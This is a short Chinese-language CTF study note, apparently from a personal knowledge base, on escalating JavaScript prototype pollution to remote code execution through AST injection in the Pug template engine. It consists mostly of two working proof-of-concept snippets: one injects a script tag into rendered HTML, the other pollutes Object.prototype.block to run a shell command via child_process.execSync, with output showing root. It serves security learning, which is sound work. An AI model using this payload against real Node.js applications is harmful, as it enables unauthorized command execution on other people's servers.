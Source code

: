 tags:: [[CTFWEB/JS/原型链污染]]

- # 原型链污染到RCE
	- [参考](https://po6ix.github.io/AST-Injection/)
	- 检测
		- ```js
		  const pug = require('pug');
		  
		  Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
		  
		  const source = `h1= msg`;
		  
		  var fn = pug.compile(source, {});
		  var html = fn({msg: 'It works'});
		  
		  console.log(html); // <h1>It works<script>alert(origin)</script></h1>
		  
		  
		  ```
	- 利用
		- ```js
		  const pug = require('pug');
		  
		  Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};
		  
		  const source = `h1= msg`;
		  
		  var fn = pug.compile(source);
		  var html = fn({msg: 'It works'});
		  
		  console.log(html); // "uid=0(root) gid=0(root) groups=0(root)\n\n<h1>It worksndefine</h1>"
		  ```
